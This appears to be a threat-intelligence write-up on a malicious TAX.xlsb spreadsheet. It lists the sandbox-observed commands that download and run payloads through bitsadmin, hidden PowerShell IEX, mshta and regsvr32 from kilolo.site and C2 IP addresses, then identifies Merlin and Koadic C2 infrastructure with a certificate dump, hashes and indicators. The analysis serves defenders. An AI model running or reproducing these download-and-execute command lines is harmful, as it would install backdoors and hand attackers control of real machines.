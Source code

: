 ea0923854208956b1f563c5301bd0c9a8561128b7bd48c5b475ddeea29da8a1c - TAX.xlsb
https://app.any.run/tasks/1c7a79e3-a201-43d3-9f4f-693d2049355c/


```
cmd.exe /c cd c:\&&mkdir Intel
ncmd.exe /c bitsadmin /transfer myjob /download /priority high https://kilolo.site/admin.bat c:\Intel\admin.bat
9cmd.exe /c cd c:\Intel&&timeout /t 15&&c:\Intel\admin.bat
jcmd.exe /c bitsadmin /transfer myjob /download /priority high https://kilolo.site/mer.bin c:\Intel\mer.bin
jcmd.exe /c bitsadmin /transfer myjob /download /priority high https://kilolo.site/mer.dll c:\Intel\mer.dll
Fcmd.exe /c cd c:\Intel&&timeout /t 15&&rename mer.bin mer.exe&&mer.exe
cmd.exe /c cd c:\Intel&&timeout /t 15&& copy mer.dll mery.dll&&rundll32.exe mer.dll,Run https://38.132.124.172:443/&regsvr32 /s mery.dll,Run https://38.132.124.172:443/
npowershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://kilolo.site/raw.txt'))
opowershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('https://kilolo.site/raw.txt'))
"mshta http://37.72.175.188:80/home
:regsvr32 /s /u /n /i:http://37.72.175.188:443/index scrobj

```

mer.dll was Merlin DLL agent - golang
fc0bece7ca5c54b7a2032bc0cca2b65f4c20cb08b54a9acca7df037b9d30d2c4

below is Merlin framework C2 - easy signature on empty subject and issuer for self signed
```
# openssl s_client -connect 38.132.124.172:443
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 
verify error:num=18:self signed certificate
verify return:1
depth=0 
verify return:1
---
Certificate chain
 0 s:
   i:
---
Server certificate
-----BEGIN CERTIFICATE-----
MIIEwDCCAqigAwIBAgIRALEpO/ZeDFiIVssqebRuwb8wDQYJKoZIhvcNAQELBQAw
ADAeFw0xOTEyMTQxODMwNThaFw0yMTEyMTQxODMwNThaMAAwggIiMA0GCSqGSIb3
DQEBAQUAA4ICDwAwggIKAoICAQDEOt7Jsc5Ey+UjNR3QXZI17jCORGPcMnDGHEfP
5DBGPmvw/DDnf8I/Jv3Bi0zeTIDprRHnO9B8uS96mBN5iObPaiaCO9z7SDYjPyYJ
KowztNd9HvAK9dr613iYhAitrFJYqKv/1oFvwqPEYp/FsXsm1+ewxioWxR0xtS8z
JvVzjal+DF4HeViyAMpUSh29P9EjwT+bSfyE8kcPd/uYzOoOL2y/NoBX9QGJto6J
XZ7vl1sLEsk9afBA99GMDbXe2ETPh5/8fDt1B11Aabj96gZNbI7kSVALM0x01no4
OlAyuHG9rVbYoDdtM1MT8oYYpO7RYlA5QW+uo4tcxYfEn4OhUDvhjCzWUmE50KmO
c3c8Ukpn4evwf5rjRonDW4oysKx13i8UCkx4xzxVPZSHxIG30JEiRFH64MOwtF74
hywd07qGPS2KSjPyy6gjRUDEkhxZIHKfnmGc0mmnkDEwtD/1HoHybGCQCQovJuy5
mT4wEV9Xjs4jwoOxBfP+xYPp4Rv0moEgIVkQFVA2t19j3baPb712arTFR2469tD5
9NErRN0M9Z/qbsZIv+pSzspl5IJme5u48RB0Xu0phoahorU3u/e48cAvpjfOk+Mx
8ymUOvQhfE9FF8ZndTzUm1va8BrMil1k1M6Mv49UNCrv6YkQ3GLY5eG7RnXB95Ej
RgEJ7wIDAQABozUwMzAOBgNVHQ8BAf8EBAMCAqQwEwYDVR0lBAwwCgYIKwYBBQUH
AwEwDAYDVR0TAQH/BAIwADANBgkqhkiG9w0BAQsFAAOCAgEArJBO2dtW2LL4RKSr
MHTyuFaLoQY+GkqJKYv4Ww2lar+x2orOP9HBzlFXlWLlBhh/yrvRoznWLeAvzJ1h
Fb3Tl1rxErI1TJl+8uLG1aTJujz1qoibh+VdESvvdQVEW86ZmfyHCecAVu+I11ur
7gpmEY1atio3Fo0dvGsMECvYBn+lmBQD186QKTASNFD/yzY8cDqf2dN4kbMkgiLt
XAnRa9K0kgEgpHY+E6FFSjf+Ax7OAMg7PPbdM3i/hygL2xiDbDNfpGQX20gUCfVg
c1MXfGEiZiJphK7FySHH+zwbXuipM3Rnm7/qVvravmnVqMdQviqs4xg96MVwWL9R
8isZ1u5Je8DSGcXqhMl/ew9G22vJeLYPClUWAuBEYQ821gnliOEEy4xl59MMRYjn
anV9IsEUMhkoFlQA9ifEyhKQPMbVOXy7zzWU+H3AzDOzkp2YfvmgLNhazRxn9mTq
1zzyWWDOn+hjSpz7ncgQotUIQppbenz8Cv0nH7dtANPgG6Vvp9+AexQTkhZLItff
XLr4FizoRkdzkspffKio2u4HMPpw/TEiD/bC3qcOvLbau+KwJWkURSKp2PCgEJBV
9RgqkizUhitkip9MiWbqUEMHKBlS1dsRHBaOB6TeFVpJBMAQ+sJsNlax/G3YdLaj
z4VAo+VAFaOAwJ0eH4lbRR7kcA8=
-----END CERTIFICATE-----

```

hxxp://37.72.175[.]188:443/index

is koadic backdoor framework - script based with python server


home - 276e409e3371f1b3d905737be03c99ed5b3b4519a03db5aec21b609d488ae06e

index - d369d50b3447d354bc6d69ffb45c2e57dc149ed58946bcfe4cf567806c1676b3

These are both koadic stagers from data/stager/stdlib.js with different sessions for handing off

hxxp://37.72.175[.]188:80/home?4IZ9S56AA4=e92f3574b16a4a0da0f15b3feca6f16f;N6URWPF5YH=

hxxp://37.72.175[.]188:443/index?6S2YBE0VOY=a9136a756c1e4ab39a0d737c0dbec493;KWYS8DF1UJ=
